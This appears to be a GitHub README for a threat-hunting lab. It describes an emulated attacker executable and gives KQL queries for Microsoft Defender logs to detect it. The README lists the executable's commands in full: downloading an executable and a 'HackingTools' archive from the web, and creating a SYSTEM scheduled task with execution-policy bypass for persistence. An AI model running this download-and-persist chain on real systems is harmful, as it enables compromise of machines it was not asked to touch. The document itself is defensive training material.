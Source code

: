 # Threat Hunting Scenario (System Compromise)
**Threat Actor Malicious File Download and Malicious File Execution**

### `MaliciousExecutable.exe` Creation and Purpose

The "malicious" executable used within the project was originally written as a PowerShell script and converted into an exectuable using `PS2EXE` (https://github.com/MScholtes/PS2EXE). The intention of the executable was to emulate possible actions a threat actor would undertake once inside a system. I wanted the the executable to perform several commands to populate the `Microsoft Defender for Endpoint` logs. To add another layer of realism to the project, I obfuscated the commands to "challenge" and test a threat hunter's knolwedge and resourcefulness. While there were other possible network reconnaissance techniques the executable could have performed, I chose a non-intrusive technique in attempt to not disrupt other devices and systems on the network. 


## Steps the Threat Actor Took to Create Logs and IoCs:
1. Several failed user logons in quick succession.
2. Opened a PowerShell terminal and executed the command `Invoke-WebRequest -Uri \"https://github.com/AaronRMartinez/Threat-Hunting-Scenario-Compromise/raw/refs/heads/main/MaliciousExecutable.exe\" -OutFile \"$env:USERPROFILE\\Downloads\\MaliciousExecutable.exe\"` to initiate the `MaliciousExecutable.exe` download.
3. Once `MaliciousExecutable.exe` was downloaded, the threat actor simply double-clicked the executable to run it. 
4. When executed, `MaliciousExecutable.exe` ran several encoded PowerShell commands to populate the EDR logs. These commands consisted of:

   - First Command: `Invoke-WebRequest -Uri "https://github.com/AaronRMartinez/Threat-Hunting-Scenario-Compromise/raw/refs/heads/main/HackingTools.zip" -OutFile "$env:USERPROFILE\Downloads\HackingTools.zip"`

   - Second Command: `Expand-Archive -Path "$env:USERPROFILE\Downloads\HackingTools.zip" -DestinationPath "$env:USERPROFILE\Downloads\HackingTools" -Force`

   - Third Command: `Remove-Item -Path "$env:USERPROFILE\Downloads\HackingTools.zip" -Force`

   - Fourth Command: `schtasks /create /tn "PersistenceScheduledTask" /tr "powershell.exe -ExecutionPolicy Bypass -File $env:USERPROFILE\Downloads\HackingTools\HackingTools\PersistenceScript.ps1" /sc onlogon /ru SYSTEM /f`

   - Fifth Command: `arp -a | Out-File -FilePath "$env:USERPROFILE\Desktop\arp_results.txt"`

The executable downloaded a zip file to the user's Downloads file, extracted the contents, and deleted the artifact created by the extraction process. The executable the created a scheduled task to mimic the actions a threat actor would perform to gain persistence on the system and conducted non-intrusive network reconnaissance.   

---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceLogonEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect a high number of failed logon attempts on a system. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to gain a general overview of a system to observe if any malicious activity is occurring.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcesskEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect any commands executed by either the threat actor or malicious files.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect any network connections that could suggest possible file downloads.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect any malicious file creation occurring on the system.|

---

## Related Queries:
```kql
// Detect failed and successful logon attempts for the "aaronmart" account on the endpoint "arm-thcompromis"
DeviceLogonEvents
| where DeviceName == "arm-thcompromis"
| project Timestamp, DeviceName, ActionType, LogonType, AccountName, FailureReason

// "MaliciousExecutable.exe" being downloaded by threat actor
// PowerShell command executing this action contained the "Invoke-WebRequest" command
DeviceEvents
| where DeviceName == "arm-thcompromis"
| where Timestamp > datetime(2025-03-15T15:02:10.5325975Z)
| where ActionType == "PowerShellCommand"
| where AdditionalFields contains "Invoke-WebRequest"
| project Timestamp, InitiatingProcessAccountName, InitiatingProcessId, InitiatingProcessCommandLine, AdditionalFields

// "MaliciousExecutable.exe" was successfully installed and is present on the disk
DeviceFileEvents
| where FileName has_any ("MaliciousExecutable.exe")
| project  Timestamp, DeviceName, RequestAccountName, ActionType, InitiatingProcessCommandLine

// "MaliciousExecutable.exe" was executed
DeviceProcessEvents
| where ProcessCommandLine has_any("MaliciousExecutable.exe")
| project  Timestamp, DeviceName, AccountName, ActionType, ProcessCommandLine

// "MaliciousExectuable.exe" executing the PowerShell commands
DeviceProcessEvents
| where DeviceName == "arm-thcompromis"
| where InitiatingProcessFileName == "maliciousexecutable.exe"
| order by Timestamp asc
| project Timestamp, ActionType, FileName, ProcessCommandLine

// "MaliciousExecutable.exe" creating a scheduled task
DeviceEvents
| where InitiatingProcessFileName == "maliciousexecutable.exe"
| where FileName == "schtasks.exe"
| order by Timestamp asc
| project Timestamp, InitiatingProcessAccountName, InitiatingProcessId, InitiatingProcessCommandLine, AdditionalFields

// "MaliciousExecutable.exe" saving the "arp -a" results in a text file
DeviceFileEvents
| where FileName == "arp_results.txt"
| project  Timestamp, DeviceName, RequestAccountName, ActionType, InitiatingProcessCommandLine
```

---

## Created By:
- **Author Name**: Aaron Martinez
- **Author Contact**: https://www.linkedin.com/in/aaron-m-59725a332/
- **Date**: March 16, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `March  16, 2025`  | `Aaron Martinez`   
